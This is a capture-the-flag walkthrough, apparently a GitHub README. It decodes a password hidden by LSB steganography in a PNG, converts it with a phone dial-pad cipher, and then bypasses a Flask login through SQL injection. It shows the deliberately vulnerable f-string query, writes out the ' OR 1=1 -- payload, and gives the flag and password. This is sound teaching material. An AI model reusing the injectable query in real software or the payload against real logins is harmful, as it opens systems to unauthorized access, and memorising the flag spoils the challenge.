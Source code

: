 # Walkthrough everything!

## About the challenge

This is a CTF challenge that uses LSB steganography and web exploitation. The challenge consists of hiding a password in the photo given. The LSBs of pixels of the photo were modified to store the password. The password opens the web page which is to be exploited for the flag. The flag is of the format `flag{...}`.

## Solution

To solve the CTF, we first need to decode the `.png` file given to us.
<br>
<br>
To decode the photo, we will use the following script:-
```python
from PIL import Image

def decode_lsb(image_path):
    img = Image.open(image_path)
    pixels = img.load()
    width, height = img.size

    binary_data = []
    for y in range(height):
        for x in range(width):
            r, g, b = pixels[x, y][:3]  # Get RGB values (ignoring alpha if present)
            binary_data.append(r & 1)  # Extract LSB from Red
            binary_data.append(g & 1)  # Extract LSB from Green
            binary_data.append(b & 1)  # Extract LSB from Blue

    # Here we will convert the binary lists into bytes.
    message = []
    for i in range(0, len(binary_data), 8):
        byte = binary_data[i:i+8]
        if len(byte) < 8:
            break  # Incomplete byte
        char = int(''.join(map(str, byte)), 2)
        if char == 0:  # Null terminator (optional)
            break
        message.append(chr(char))

    return ''.join(message)

image_path = "hidden_portal.png"
hidden_message = decode_lsb(image_path)
print("Hidden Message:", hidden_message)
```

<br>

This will lead us with the message `axpwagjt,run-app.py`. This is not the final code. The hint given is `33355588 -> ilu`. This hints towards the conversion using the dial pad. So, `axpwagjt` becomes `299792458`, which is the password. Then we need to run `app.py`.

<br>
<br>

After this, we will enter the password and exploit the web page. This can be done using SQL injection.
<br>
In our Flask app, the login query concatenates user input directly into the SQL query:

```python
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
```
Exploit: By injecting ' OR 1=1 -- into the username field, the query becomes:

```sql
SELECT * FROM users WHERE username='' OR 1=1 -- ' AND password=''
```
* OR 1=1 makes the condition always true.
* -- comments out the rest of the query (ignoring the password check).
<br>
<br>
Then we finally get the flag!
<br>

**`flag{2401AI17}`**
